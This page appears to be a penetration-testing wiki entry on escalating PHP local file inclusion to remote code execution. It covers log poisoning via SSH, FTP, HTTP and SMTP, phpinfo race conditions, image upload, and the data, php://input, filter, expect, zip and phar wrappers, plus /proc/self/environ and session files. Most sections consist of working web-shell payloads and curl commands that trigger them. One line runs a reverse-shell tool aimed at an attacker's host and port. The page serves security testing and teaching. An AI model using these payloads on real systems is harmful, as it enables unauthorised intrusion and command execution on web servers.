 # LFI to RCE

## via logs poisoning

{% hint style="warning" %}
Log files may be stored in different locations depending on the operating system/distribution.
{% endhint %}

<details>

<summary>/var/log/auth.log</summary>

For instance, the tester can try to log in with SSH using a crafted login. On a Linux system, the login will be echoed in `/var/log/auth.log`. By exploiting a Local File Inclusion, the attacker will be able to make the crafted login echoed in this file interpreted by the server.

```bash
# Sending the payload via SSH
ssh '<?php phpinfo(); ?>'@$TARGET

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/auth.log&cmd=id
```

</details>

<details>

<summary>/var/log/vsftpd.log</summary>

When the FTP service is available, testers can try to access the `/var/log/vsftpd.log` and see if any content is displayed. If that's the case, log poisoning may be possible by connecting via FTP and sending a payload (depending on which web technology is used).

```bash
# Sending the payload via FTP
ftp $TARGET_IP
> '<?php system($_GET['cmd'])?>'

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/vsftpd.log&cmd=id
```

</details>

<details>

<summary>/var/log/apache2/access.log</summary>

When the web application is using an Apache 2 server, the `access.log` may be accessible using an LFI.

* **About `access.log`**: records all requests processed by the server.
* **About netcat**: using netcat avoids URL encoding.

```bash
# Sending the payload via netcat
nc $TARGET_IP $TARGET_PORT
> GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
> Host: $TARGET_IP
> Connection: close

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/apache2/access.log&cmd=id
```

There are [some variations](https://blog.codeasite.com/how-do-i-find-apache-http-server-log-files/) of the `access.log` path and file depending on the operating system/distribution:

* RHEL / Red Hat / CentOS / Fedora Linux Apache access file location: `/var/log/httpd/access_log`
* Debian / Ubuntu Linux Apache access log file location: `/var/log/apache2`/access.log
* FreeBSD Apache access log file location: `/var/log/httpd-access.log`
* Windows Apache access log file location: \*\*\*\* `C:\xampp\apache\logs`

Or if the web server is under Nginx :

* Linux Nginx access log file location: `/var/log/nginx/access.log`
* Windows Nginx access log file location: `C:\nginx\log`

</details>

<details>

<summary>/var/log/apache/error.log</summary>

This one is similar to the `access.log`, but instead of putting simple requests in the log file, it will put errors in `error.log`.

* **About `error.log`**: records any errors encountered in processing requests.
* **About netcat**: using netcat avoids URL encoding.

```bash
# Sending the payload via netcat
nc $TARGET_IP $TARGET_PORT
> GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
> Host: $TARGET_IP
> Connection: close

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/apache2/error.log&cmd=id
```

There are [some variations](https://blog.codeasite.com/how-do-i-find-apache-http-server-log-files/) of the `error.log` path and file depending on the operating system/distribution:

* RHEL / Red Hat / CentOS / Fedora Linux Apache error file location: `/var/log/httpd/error_log`
* Debian / Ubuntu Linux Apache error log file location: `/var/log/apache2/error.log`
* FreeBSD Apache error log file location: `/var/log/httpd-error.log`
* Windows Apache access log file location: \*\*\*\* `C:\xampp\apache\logs`

Or if the web server is under Nginx :

* Linux Nginx access log file location: `/var/log/nginx`
* Windows Nginx access log file location: `C:\nginx\log`

</details>

<details>

<summary>/var/log/mail.log</summary>

When an SMTP server is running and writing logs in `/var/log/mail.log`, it's possible to inject a payload using telnet (as an example).

```bash
# Sending the payload via telnet
telnet $TARGET_IP $TARGET_PORT
> MAIL FROM:<pentest@pentest.com>
> RCPT TO:<?php system($_GET['cmd']); ?>

# Accessing the log file via LFI
curl --user-agent "PENTEST" "$URL/?parameter=/var/log/mail.log&cmd=id"
```

</details>

## via phpinfo

{% hint style="info" %}
The prerequisites for this method are :

* having `file_uploads=on` set in the PHP configuration file
* having access to the output of the `phpinfo()` function
{% endhint %}

When `file_uploads=on` is set in the PHP configuration file, it is possible to upload a file by POSTing it on any PHP file ([RFC1867](https://www.ietf.org/rfc/rfc1867.txt)). This file is put to a temporary location on the server and deleted after the HTTP request is fully processed.

The aim of the attack is to POST a PHP reverse shell on the server and delay the processing of the request by adding very long headers to it. This gives enough time to find out the temporary location of the reverse shell using the output of the `phpinfo()` function and including it via the LFI before it gets removed.

The [lfito\_rce](https://github.com/roughiz/lfito\_rce) (Python2) script implements this attack.

```bash
#There is no requirements.txt, the dependencies have to be installed manually
python lfito_rce.py -l "http://$URL/?page=" --lhost=$attackerIP --lport=$attackerPORT -i "http://$URL/phpinfo.php"
```

The "[LFI with phpinfo() assistance](https://docs.google.com/viewerng/viewer?url=https://insomniasec.com/cdn-assets/LFI\_With\_PHPInfo\_Assistance.pdf)" research paper from [Insomnia Security](https://insomniasec.com/) details this attack.

## via file upload

#### Image Upload

{% hint style="info" %}
The prerequisite for this method is to be able to [upload a file](../../../web-services/attacks-on-inputs/unrestricted-file-upload.md).
{% endhint %}

```bash
# GIF8 is for magic bytes
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif

curl --user-agent "PENTEST" "$URL/?parameter=/path/to/image/shell.gif&cmd=id"
```

{% hint style="info" %}
Other LFI to RCE via file upload methods may be found later on the chapter [LFI to RCE (via php wrappers)](lfi-to-rce.md#via-php-wrappers-and-streams).
{% endhint %}

## via PHP wrappers and streams

<details>

<summary>data://</summary>

The attribute `allow_url_include` must be set. This configuration can be checked in the `php.ini` file.

{% code overflow="wrap" %}
```bash
# Shell in base64 encoding
echo "<?php system($_GET['cmd']); ?>" | base64

# Accessing the log file via LFI
curl --user-agent "PENTEST" "$URL/?parameter=data://text/plain;base64,$SHELL_BASE64&cmd=id"
```
{% endcode %}

</details>

<details>

<summary>php://input</summary>

The attribute `allow_url_include` should be set. This configuration can be checked in the `php.ini` file.

{% code overflow="wrap" %}
```bash
# Testers should make sure to change the $URL
curl --user-agent "PENTEST" -s -X POST --data "<?php system('id'); ?>" "$URL?parameter=php://input"
```
{% endcode %}

</details>

<details>

<summary>php://filter</summary>

The `filter` wrapper doesn't require the `allow_url_include` to be set. This works on default PHP configuration `allow_url_include=off`.

{% code overflow="wrap" %}
```bash
# Testers should make sure to change the $URL, $FILTERS with the chaining that generates their payload and $FILE with the path to the file they can read.
curl --user-agent "PENTEST" "$URL?parameter=php://filter/$FILTERS/resource=$FILE"
```
{% endcode %}

The research article "[PHP filters chain: What is it and how to use it](https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it.html)" from Synacktiv, and [the original writeup](https://gist.github.com/loknop/b27422), go into the details of that technique.

</details>

<details>

<summary>except://</summary>

The `except` wrapper doesn't required the `allow_url_include` configuration, the `except` extension is required instead.

```bash
curl --user-agent "PENTEST" -s "$URL/?parameter=except://id"
```

</details>

<details>

<summary>zip://</summary>

The prerequisite for this method is to be able to [upload a file](../../../web-services/attacks-on-inputs/unrestricted-file-upload.md).

{% code overflow="wrap" %}
```bash
echo "<?php system($_GET['cmd']); ?>" > payload.php
zip payload.zip payload.php

# Accessing the log file via LFI (the # identifier is URL-encoded)
curl --user-agent "PENTEST" "$URL/?parameter=zip://payload.zip%23payload.php&cmd=id"
```
{% endcode %}

</details>

<details>

<summary>phar://</summary>

The prerequisite for this method is to be able to [upload a file](../../../web-services/attacks-on-inputs/unrestricted-file-upload.md).

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

The tester need to compile this script into a `.phar` file that when called would write a shell called `shell.txt` .

```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Now the tester has a `phar` file named `shell.jpg` and he can trigger it through the `phar://` wrapper.

{% code overflow="wrap" %}
```bash
curl --user-agent "PENTEST" "$URL/?parameter=phar://./shell.jpg%2Fshell.txt&cmd=id"
```
{% endcode %}

</details>

## via /proc

<details>

<summary>/proc/self/environ</summary>

Testers can abuse a process created due to a request. The payload is injected in the `User-Agent` header.

```bash
# Sending a request to $URL with a malicious user-agent
# Accessing the payload via LFI
curl --user-agent "<?php passthru($_GET['cmd']); ?>" $URL/?parameter=../../../proc/self/environ
```

</details>

<details>

<summary>🛠️ /proc/*/fd</summary>



</details>

## via PHP session

When a web server wants to handle sessions, it can use PHP session cookies (`PHPSESSID`).

1.  Finding where the sessions are stored.

    Examples:

    * Linux : `/var/lib/php5/sess_[PHPSESSID]`
    * Linux : `/var/lib/php/sessions/sess_[PHPSESSID]`
    * Windows : `C:\Windows\Temp\`
2.  Displaying a `PHPSESSID` to see if any parameter is reflected inside.

    Example:

    * The user name for the session (from a parameter called `user`)
    * The language used by the user (from a parameter called `lang`)

    _Exemple :_

```http
GET /?user=/var/lib/php/sessions/sess_[PHPSESSID] HTTP/2

username|s:6:"tester";lang|s:7:"English";
```

3\. Inject some PHP code in the reflected parameter in the session

```http
GET /?user=<%3fphp+system($_GET['cmd'])%3b+%3f> HTTP/2
```

4\. Call the `session file`with the vulnerable parameter to trigger a command exection

```http
GET /?user=/var/lib/php/sessions/sess_[PHPSESSID]&cmd=id HTTP/2

</h2> username|s:30:"uid=33(www-data) gid=33(www-data) groups=33(www-data)
";lang|s:7:"English";
```
